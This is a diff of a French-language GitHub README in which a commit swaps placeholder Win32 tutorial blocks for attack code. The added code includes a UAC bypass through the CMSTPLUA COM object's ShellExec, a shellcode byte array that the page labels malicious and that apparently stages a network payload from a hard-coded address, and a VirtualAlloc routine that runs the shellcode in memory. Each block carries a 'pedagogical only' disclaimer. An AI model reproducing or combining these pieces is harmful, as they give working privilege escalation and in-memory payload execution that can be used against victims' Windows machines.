

Before and after one commit to imortel-cyber/IMORTEL---Shadowvorcs, a Markdown page: README.md, the part around one of its changes. Shown at 81% size. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -456,37 +463,94 @@ TCHAR  g_szBuffer[256];        // Buffer texte réutilisable
 ```
 
-> **Explication à remplacer** — Le préfixe `g_` est une convention C++ Win32 pour identifier les variables globales (scope = fichier entier). `HWND` est un "Handle to WiNDow" — un identifiant opaque que Windows utilise en interne pour référencer chaque fenêtre. `HINSTANCE` identifie le processus courant auprès du système.
+> **Ces constantes** définissent les identifiants COM pour l'interface CMSTPLUA, qui est utilisée pour contourner le contrôle de compte d'utilisateur `UAC` de Windows.
+> **Cette structure** définit l'interface virtuelle pour l'objet `COM CMSTPLUA`, permettant d'appeler ses méthodes, notamment `ShellExec` qui est utilisée pour exécuter des commandes avec des privilèges élevés.
+---
+
+### ▸ BLOC 04 — FONCTION DE BYPASS UAC
+
+> ❗**Ce code est fourni strictement à des fins pédagogiques et d’analyse technique**
+
+```cpp
+// ============================================================
+//  BLOC 04 — WinMain() — FONCTION DE BYPASS UAC
+//  N’affiche pas la fenêtre de confirmation de Windows
+// ============================================================
+
+bool BypassUAC_CMSTPLUA(const wchar_t* command, const wchar_t* parameters) {
+    HRESULT hr = CoInitializeEx(NULL, COINIT_APARTMENTTHREADED);
+    if (FAILED(hr)) return false;
+
+    ICMLuaUtil* pLuaUtil = NULL;
+    hr = CoCreateInstance(CLSID_CMSTPLUA, NULL, CLSCTX_LOCAL_SERVER, IID_ICMLuaUtil, (void**)&pLuaUtil);
+    if (FAILED(hr) || !pLuaUtil) {
+        CoUninitialize();
+        return false;
+    }
+
+    hr = pLuaUtil->lpVtbl->ShellExec(pLuaUtil, command, parameters, NULL, NULL, SW_SHOWNORMAL);
+    pLuaUtil->lpVtbl->Release(pLuaUtil);
+    CoUninitialize();
+
+    return SUCCEEDED(hr);
+}
+```
+
+> **Cette fonction** initialise la bibliothèque COM, crée une instance de l’objet CMSTPLUA, utilise la méthode `ShellExec` pour exécuter une commande avec élévation de privilèges, libère les ressources COM et retourne true si l’exécution a réussi.
 
 ---
 
-### ▸ BLOC 04 — `WinMain()` — POINT D'ENTRÉE
+### ▸ BLOC 05 — SHELLCODE MALVEILLANT
 
-> 📌 **Remplace le code ci-dessous par ton vrai `WinMain()`**
+> ❗**Ce code est fourni strictement à des fins pédagogiques et d’analyse technique**
 
 ```cpp
 // ============================================================
-//  BLOC 04 — WinMain() — POINT D'ENTRÉE DU PROGRAMME
-//  Équivalent de main() pour les applications Windows GUI
+//  BLOC 05 — SHELLCODE MALVEILLANT
+//  Code dangereux conçu pour être injecté et exécuté
 // ============================================================
 
-int WINAPI WinMain(
-    HINSTANCE hInstance,      // Handle de l'instance courante
-    HINSTANCE hPrevInstance,  // Toujours NULL en Win32 moderne
-    LPSTR     lpCmdLine,      // Arguments de la ligne de commande
-    int       nCmdShow        // État initial : SW_SHOW, SW_HIDE...
-) {
-    g_hInst = hInstance;
+unsigned char shellcode[] =
+"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"
+"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
+"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52"
+"\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x52\x0f\xb7"
+"\x4a\x18\x8b\x52\x20\x01\xd0\x8b\x48\x1c\x8b\x58\x3c\x01\xd3"
+"\xe3\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01"
+"\xc7\x38\xe0\x75\xf6\x03\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b"
+"\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04"
+"\x8b\x01\xd0\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0"
+"\x58\x5f\x5a\x8b\x12\xe9\x57\xff\xff\xff\x5d\x68\x33\x32\x00"
+"\x00\x68\x77\x73\x32\x5f\x54\x68\x4c\x77\x26\x07\xff\xd5\xb8"
+"\x90\x01\x00\x00\x29\xc4\x54\x50\x68\x2e\x65\x78\x65\x68\xff"
+"\xff\xff\xff\x57\x50\x50\x50\x40\x50\x40\x50\x68\xea\x0f\xdf"
+"\xe0\xff\xd5\x97\x6a\x05\x68\xc0\xa8\x00\x01\x6a\x02\x8b\x36"
+"\x6a\x40\x68\x00\x10\x00\x00\x56\x6a\x00\x68\x58\xa4\x53\xe5"
+"\xff\xd5\x6a\x00\x6a\x04\x56\x57\x68\x02\x00\x11\x5c\x89\xe6"
+"\x5d\x5f\x5e\x50\xff\xd5";
+```
 
-    CoInitialize(NULL);          // Initialise COM (nécessaire pour OLE / TaskSchd)
+> **Ce shellcode** contient du code machine `binaire` qui sera exécuté directement en mémoire et d'exécution de programme (dropper) conçu pour des attaques de type `staged payload`.
 
-    // ... enregistrement classe, création fenêtre, boucle messages
+---
 
-    CoUninitialize();            // Libère COM proprement
-    return 0;
+### ▸ BLOC 06 — FONCTION D'EXÉCUTION DU SHELLCODE
+
+> ❗**Ce code est fourni strictement à des fins pédagogiques et d’analyse technique**
+
+```cpp
+// ============================================================
+//  BLOC 06 — FONCTION D'EXÉCUTION DU SHELLCODE
+//  Exécution du shellcode en mémoire RAM
+// ============================================================
+
+void executeShellcode() {
+    void* exec = VirtualAlloc(0, sizeof(shellcode), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
+    memcpy(exec, shellcode, sizeof(shellcode));
+    ((void(*)())exec)();
 }
 ```
 
-> **Explication à remplacer** — `WinMain` remplace `main()` dans les applications Windows sans console. `WINAPI` est une macro qui définit la convention d'appel `__stdcall` — obligatoire pour que Windows puisse invoquer la fonction correctement. `CoInitialize(NULL)` initialise le sous-système COM, requis dès qu'on utilise `ole32` ou `taskschd`.
+> **Cette fonction** alloue de la mémoire exécutable avec `VirtualAlloc`, copie le shellcode dans cette mémoire et exécute le shellcode en appelant le point d’entrée.
 
 ---
 
````
Also changed, not shown: other parts of README.md (+75 -120 lines).
